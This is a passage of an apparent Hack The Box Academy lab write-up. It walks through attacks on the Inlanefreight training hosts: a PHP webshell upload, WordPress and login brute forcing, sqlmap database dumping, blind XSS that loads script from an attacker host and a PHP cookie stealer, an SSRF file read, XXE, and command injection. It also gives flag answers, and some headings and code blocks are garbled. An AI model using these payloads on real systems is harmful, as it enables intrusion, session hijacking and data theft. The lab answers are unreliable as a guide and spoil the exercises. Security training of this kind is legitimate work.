
*_Figure 12.3 — Lab execution and output verification (Page 12)_*


We can see in the response the property: 'X-Custom-IP-Autorization' , which
value is '172.18.0.1' – not our IP .

Lets in the request, set the property to '127.0.0.1' (localhost):

* *

It seems we got a proper successful reponse.
Lets right click on the response window, and select 'Show response in browser':


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


### browser

We will get a window providing us a URL to paste in the burpsuite speciailized
browser:


It seems a file upload page.
Before we select 'Browse' to upload file selection, lets run the commands:
touch webshell.php

```bash
echo '<?php system($_GET['cmd']); ?>' > webshell.php
```


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


### to create php reverse webshell file called 'webshell.php'

to create php reverse webshell file called 'webshell.php':


Next, select 'Browse' on the page top right corner, file selection window from
the device will be opened:
*note – turn burpsuite Interceptor off at this point, if you are using the
burpsuite specialized browser from the earlier stages. *

The default option is 'Custom Files' . Select 'All Files', and then select
'webshell.php' – our created webshell file. Then – select 'Submit':

It seems the webserver doesn't accepts '.php' files.
Lets try again, this time – with burpsuite interceptor ON.
Here is the upload request:


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


*_Figure 15.3 — Lab execution and output verification (Page 15)_*


### And Forward

#### Technical Methodology & Exploit Execution:

curl
http://dev.inlanefreight.local/uploads/webshell.php?cmd=id


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


*_Figure 16.4 — Lab execution and output verification (Page 16)_*


### Ok, the flag will be in '../flag.txt', lets confirm

Ok, the flag will be in '../flag.txt', lets confirm:
curl
http://dev.inlanefreight.local/uploads/webshell.php?cmd=ls%2
0..
the '%20'  is the URL encoding for space, so we effectively run the command 'ls
..' – check the content of the parent directory.

Here is the flag, lets get it:
curl
http://dev.inlanefreight.local/uploads/webshell.php?cmd=cat%
20../flag.txt


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


*_Figure 17.3 — Lab execution and output verification (Page 17)_*


### First, we run

> **Lab Question (Page 18)**: Exploit the WordPress instance and find a flag in the web root. Submit the flag value as your answer (flag format: HTB{}).
>
> **Flag / Answer**: `HTB{e7134abea7438e937b87608eab0d979c}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'ir.inlanefreight.local' and the target IP .

** Now, before we proceed in the solution – the solution is based on the
same's WordPress challenge method in Attacking Common Applications –
'Attacking WordPress' section (pages 9 to 13)
FULL SOLUTIONS DETAILS ARE THERE, here I will be briefer. **

First, we run:
```bash
sudo wpscan -e u -t 500 --url http://ir.inlanefreight.local
wpscan to enumarate the wordpress based website:
```

*
*

We found the username 'ilfreightwp'.
Next – lets download this password list for brute force (we call it
passwords.txt), and we run the command:
```bash
sudo wpscan --url http://ir.inlanefreight.local -P
```
passwords.txt -U ilfreightwp


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


### a bit before the end the result will be displayed

#### Technical Methodology & Exploit Execution:

system($_GET[0]);
in it

When done we can run webshell and use it to get the flag.
They said the flag is at 'web root' , which means '/var/www/html':
So lets enter in the browser:


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### Now, lets open burpsuite

> **Lab Question (Page 20)**: Enumerate the "status" database and retrieve the password for the "Flag" user. Submit the value as your answer.
>
> **Flag / Answer**: `1fbea4df249ac4f4881a5da387eb297cf`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'status.inlanefreight.local' and the target IP .

Now, lets open burpsuite:
burpsuite
go to 'proxy' , open burpsuite browser (interceptor off), go in it to
'http://status.inlanefreight.local/'.
then – we set the interceptor on, and enter some input in the input box (lets
say ''':


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### (meaning '''). Lets change the '%27' to '*'

#### Technical Methodology & Exploit Execution:

```bash
sqlmap -r sqli.txt --dbms=mysql
```
select 'Y' whenever a selection request appears, for this command and all
following commands.

The output confirms the target machine indeed uses 'MySQL'.
Good, lets continue with databased enumeration within the MySQL:
```bash
sqlmap -r sqli.txt --dbms=mysql --dbs
```


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


Output shows that there is a database named 'status' , lets check it:
```bash
sqlmap -r sqli.txt --dbms=mysql -D status --tables
```


There are 2 tables in 'status' database, lets check the 'users' table:
```bash
sqlmap -r sqli.txt --dbms=mysql -D status -T users --dump
```


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


*_Figure 22.3 — Lab execution and output verification (Page 22)_*


### Lets enter the website

> **Lab Question (Page 23)**: Steal an admin's session cookie and gain access to the support ticketing queue. Submit the flag value for the "John" user as your answer .
>
> **Flag / Answer**: `HTB{1nS3cuR3_c00k135}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'support.inlanefreight.local' and the target IP .
Lets enter the website:
http://support.inlanefreight.local/


And we select 'Raise Ticket':
It gets us to
http://support.inlanefreight.local/ticket.php


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


### Before we hit 'send', first lets initiate netcat listener

The first 4 fields values are irrelevant, but on the Message field we put:
'"><script src=http://<attacker-IP>:4444/TESTING_THIS</script>Message'
It will launch an attack called 'blind cross scripting' and deliver to a listener the
value 'TESTING_THIS'.
Before we hit 'send', first lets initiate netcat listener:
```bash
nc -lnvp 4444
```

now we press 'SEND':


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


### For that we will create 2 files in the attacking pwnbox

Here it is, the testing works.
Now we can use it to transfer more sensitive data.
For that we will create 2 files in the attacking pwnbox:
The first – index.php, in it we put the content:
<?php
if (isset($_GET['c'])) {
$list = explode(";", $_GET['c']);
foreach ($list as $key => $value) {
$cookie = urldecode($value);
$file = fopen("cookies.txt", "a+");
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} |
Cookie: {$cookie}\n");
fclose($file);
}
}
?>


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


### The second: script.js. here we put the content

#### Technical Methodology & Exploit Execution:

```bash
sudo php -S 0.0.0.0:4444
```
listener is running..


And we submit another ticker, where in the 'Message' field the content is:
'"><script src=http://<attacket-IP>:4444/script.js></script>'

And SEND..


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


*_Figure 26.3 — Lab execution and output verification (Page 26)_*


### Follow those steps to disable it

Here is the session cookie. Lets insert it to the website cookies editor:
** note – when I tried it at first, I had an issue with 'first party isolation'.
Follow those steps to disable it:

And make sure this is set to false:

And restart the browser. **


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


*_Figure 27.2 — Lab execution and output verification (Page 27)_*


*_Figure 27.3 — Lab execution and output verification (Page 27)_*


### Lets open again the browser on the vhost website

Lets open again the browser on the vhost website:

And we insert the found admin's session cookie.
Then – enter login:

We will get to the admin's dashboard, with all the user's data:


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


*_Figure 28.3 — Lab execution and output verification (Page 28)_*


### Now lets go to the website

> **Lab Question (Page 29)**: Use the SSRF to Local File Read vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}).
>
> **Flag / Answer**: `HTB{49f0bad299687c62334182178bfd75d8}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'tracking.inlanefreight.local' and the target IP .

Now lets go to the website:

It looks that we can enter a tracking number, for example entering '5':

Ok.. lets try entering non-number value:


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


*_Figure 29.3 — Lab execution and output verification (Page 29)_*


### guide – we will get the flag by entering this script

It takes a word value as well. Now lets test it further with html injection, lets
enter the mark-up
<h1>test</h1>


It works, now it is displayed as title.

Lets try to perform SSRF – Server Side Request Forgery attack, based on this
guide – we will get the flag by entering this script:
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)};
x.open("GET","file:///flag.txt");
x.send();
</script>


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


*_Figure 30.3 — Lab execution and output verification (Page 30)_*


### Lets to to the website, and enter 'register now'

> **Lab Question (Page 31)**: Register an account and log in to the Gitlab instance. Submit the flag value (flag format : HTB{}).
>
> **Flag / Answer**: `HTB{32596e8376077c3ef8d5cf52f15279ba}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'gitlab.inlanefreight.local' and the target IP .

Lets to to the website, and enter 'register now':

And create a user.
When created, we will be in the user's dashboard, we go to 'Explore public
projects:

Then we go to 'All' and immediately spot the flag:


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*_Figure 31.3 — Lab execution and output verification (Page 31)_*


> **Lab Question (Page 32)**: Use the XXE vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}).
>
> **Flag / Answer**: `HTB{dbca4dc5d99cdb3311404ea74921553c}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'shopdev2.inlanefreight.local' and the target IP .
Lets start burpsuite, and open its specialized browser.
burpsuite
```bash
set the interceptor off.
```
Then lets enter in the browser to
http://shopdev2.inlanefreight.local


And we are at the login page. Trying the default credentials 'admin:admin'
works.


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


### And we are in. lets add some item and go to My Cart

And we are in. lets add some item and go to My Cart:


```bash
Set the interceptor on, and select 'I AGREE' →  'COMPLETE PURCHASE':
```

→


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


*_Figure 33.2 — Lab execution and output verification (Page 33)_*


*_Figure 33.3 — Lab execution and output verification (Page 33)_*


*_Figure 33.4 — Lab execution and output verification (Page 33)_*


### And here is the intercepted burpsuite request

And here is the intercepted burpsuite request:

Lets send it to a repeater (right click on the request  →  Send to Repeater):

And open the request on the repeater:


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


We will replace the existing xml in the request with this xml script:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
<!ENTITY xxetest SYSTEM "file:///flag.txt">
]>
<root>
<subtotal>
undefined
</subtotal>
<userid>
&xxetest;
</userid>
</root>


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


### to bruteforce the admin user

> **Lab Question (Page 36)**: Use the command injection vulnerability to find a flag in the web root. Submit the flag value as your answer (flag format: HTB{}).
>
> **Flag / Answer**: `HTB{bdd8a93aff53fd63a0a14de4eba4cbc1}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will need do initial configuration on vhost
'monitoring.inlanefreight.local' and the target IP .
Opening the website in the browser will get us to a login page:

(and this time the 'admin:admin' trick wont work)
Using the same password.txt list from the wordpress section we will attempt
bruteforcing the login, we will use hydra tool with the command:
```bash
hydra -l admin -P ./passwords.txt
```
monitoring.inlanefreight.local http-post-form
"/login.php:username=admin&password=^PASS^:Invalid
Credentials!"
to bruteforce the admin user:

The credentials are 'admin:12qwaszx', lets open the website in burpsuite
browser (interceptor off), and lets login!

We got to some terminal page.
Entering:
help


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


### 127.0.0.1'

Gives us the commands we can use, and confirms that terminal holds a
restricted shell.
The connection_test looks interesting, for example if we try 'connection_test
127.0.0.1':

There is a connection. Lets try it again, but this time with burpsuite interceptor
on:

The intercepted request indicates a request is being sent to 'ping.php' page
Now, when attempting to enter a different IP , lets say '8.8.8.8':

Will also reveal:


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


*_Figure 37.3 — Lab execution and output verification (Page 37)_*


*_Figure 37.4 — Lab execution and output verification (Page 37)_*


### repeater for some trial and error

The the parameter IP in the request is '127.0.0.1' .
It means that no matter what input we put in the terminal – the IP '127.0.0.1'
